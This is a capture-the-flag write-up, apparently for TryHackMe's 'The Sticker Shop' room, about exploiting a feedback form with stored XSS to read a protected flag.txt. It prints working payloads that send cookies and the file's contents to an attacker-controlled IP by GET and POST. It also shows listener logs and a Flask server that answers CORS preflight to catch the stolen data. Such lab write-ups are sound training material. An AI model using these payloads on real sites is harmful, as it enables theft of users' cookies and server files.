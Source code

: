 ```yaml
---
title: "The Sticker Shop"
date: 2024-11-29T16:02:41-06:00
draft: false
tags:
- THM
- XSS
- Web Exploitation
---
```


![The Sticker Shop](/img/the_sticker_shop/the_sticker_shop.png#center)

### Description
[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-rated challenge on Tryhackme. We exfiltrate ```flag.txt``` from the web server through a XSS attack.


### Walkthrough
We are told that we need to read the flag at ```http://10.10.102.204:8080/flag.txt```. However, visiting the URL, we are met with a 401 Unauthorized message, meaning we are not authenticated to view the file.

![Direct access 401 forbidden](/img/the_sticker_shop/401.png)

If we backtrack to the webapp's homepage, we see that there is a page for submitting feedback where we can presumably send content to the sticker shop staff. This might be our way in.

![](/img/the_sticker_shop/feedback.png)

I started by sending a simple XSS payload to attempt to exfiltrate user cookies.

```html
<script>new Image().src="http://10.13.48.55/?c="+document.cookie</script>
```

```
┌──(kali㉿kali)-[/tmp]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.102.204 - - [29/Nov/2024 19:56:47] "GET /?c= HTTP/1.1" 200 -
10.10.102.204 - - [29/Nov/2024 19:56:58] "GET /?c= HTTP/1.1" 200 -
```

Unfortunately, this does not work. The webapp may have some sort of defense mechanism (e.g. HttpOnly). Heck, it may not be using cookies at all. Without further information, it will be difficult to obtain any account secrets, if they exist in the first place. We need to focus on directly accessing ```flag.txt``` through our XSS payload instead. 

A quick and dirty way of doing this would be embedding ```flag.txt```'s contents into a query string. Below is a payload that reads ```flag.txt``` on the server side and sends the data back to us with a GET request.

```html
<script>
    function sendData(data) {
        const url = new URL("http://10.13.48.55");
        url.searchParams.append("data", data);
        fetch(url)
    }

    fetch("http://127.0.0.1:8080/flag.txt")
        .then(response => response.text())
        .then(data => {
            sendData(data);
        })
        .catch(error => console.error('Error:', error));
</script>
```

![Quick and dirty GET flag](/img/the_sticker_shop/flag_get.png)

But what if you want to read a file that is much larger, or you don't want the data to be visible in the URL, perhaps for greater stealth? In that case, you would be better off using POST instead of GET.

```html
<script>
    function sendData(data){
        fetch("http://10.13.48.55", {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify(data)
        })
    }

    fetch("http://127.0.0.1:8080/flag.txt")
        .then(response => response.text())
        .then(data => {
            sendData(data)
        })
</script>
```

The problem is that Python's simple HTTP server only supports GET and HEAD requests, and the sticker website is sending a preflight request, so netcat is out of the question as well...

```
┌──(kali㉿kali)-[/tmp]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.13.48.55] from (UNKNOWN) [10.10.102.204] 52614
OPTIONS / HTTP/1.1
Host: 10.13.48.55
Connection: keep-alive
Accept: */*
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type
Origin: http://127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

We need to respond appropriately in order to receive the POST request containing ```flag.txt```. Specifically, we need to respond with the correct ```Access-Control-Allow-Origin```, ```Access-Control-Allow-Methods```, and ```Access-Control-Allow-Headers``` headers.

```
Access-Control-Allow-Origin: Specifies what domains are allowed to access a resource.
Access-Control-Allow-Methods: Indicates which HTTP methods are allowed.
Access-Control-Allow-Headers: Represents the HTTP headers that are permitted.
```

Now to whitelist any origin[^1], the HTTP POST and OPTIONS, as well as the Content-Type header. I spun up a Flask server to do this:

[^1]: The request from flag shop comes from a random high port and there is no built-in method in CORS for wildcard port matching.

```python
from flask import Flask, request


app = Flask(__name__)

@app.route('/', methods=['POST', 'OPTIONS'])
def handler():
    if request.method == 'OPTIONS':
        headers = {
                'Access-Control-Allow-Origin' : '*',
                'Access-Control-Allow-Methods' : 'POST, OPTIONS',
                'Access-Control-Allow-Headers' : 'Content-Type'
        }
        return '', 200, headers

    elif request.method == 'POST':
        data = request.get_json()
        print(data)
        return '', 200

    return '', 405

if __name__ == '__main__':
    app.run()
```

And now, we should successfully receive our flag.

![POST flag](/img/the_sticker_shop/flag.png)